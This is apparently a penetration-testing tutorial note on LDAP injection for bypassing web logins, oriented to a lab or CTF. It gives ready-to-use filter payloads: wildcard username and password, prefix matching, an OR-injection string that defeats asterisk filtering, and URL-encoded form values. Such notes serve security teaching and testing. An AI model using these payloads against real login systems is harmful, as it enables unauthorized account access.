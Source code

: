 # LDAP - Authentication Bypass

Basic LDAP injection to bypass web logins backed by directory servers (OpenLDAP/AD). If user input is concatenated into a search filter, wildcards and boolean composition can force matches without knowing a password.

## Foundation

Typical login filter (username + password):

```ldap
(&(uid=<USER>)(userPassword=<PASS>))
```

Other attributes may be used (e.g., `cn` instead of `uid`).

## Exploitation

### Wildcard password (known username)

```ldap
(&(uid=admin)(userPassword=*))
```

- Set username to a valid user (e.g., `admin`), password to `*`.
- `*` matches any value; filter returns the user → login succeeds.

### Wildcard both (unknown username)

```ldap
(&(uid=*)(userPassword=*))
```

- Matches all entries with both attributes → app often logs in as the first returned user.

### Username prefix (partial knowledge)

```ldap
(&(uid=admin*)(userPassword=*))
```

- Matches any user whose `uid` starts with `admin`.

### Without wildcards (asterisk filtered)

Inject OR with a universal true `(&)` to neutralize password check:

- Username payload: `admin)(|(&`
- Password: any (e.g., `abc`)

Effective filter:

```ldap
(&(uid=admin)(|(&)(userPassword=abc)))
```

- `(|(&)(...))` is true regardless of the wrong password → login as `admin`.

## URL-encoded examples (POST form)

- Username: `admin%29%28%7C%28%26`
- Password: `abc%29`

## Lab-style task

- If hint says high-privilege username includes "admin":
  - Username: `admin*`
  - Password: `*`
- Resulting filter:

```ldap
(&(uid=admin*)(userPassword=*))
```

The app should redirect to a post-login page; flag is presented there. Redact the flag in notes.

## Tips

- Escape/encode for HTTP forms when needed.
- Some apps map `cn`, `mail`, or `sAMAccountName` instead of `uid`.
- If filter wraps in additional ANDs, similar ideas apply: place OR at the right depth.
- Prefer allow-listed, fixed attribute choices on the defense side (see prevention note).
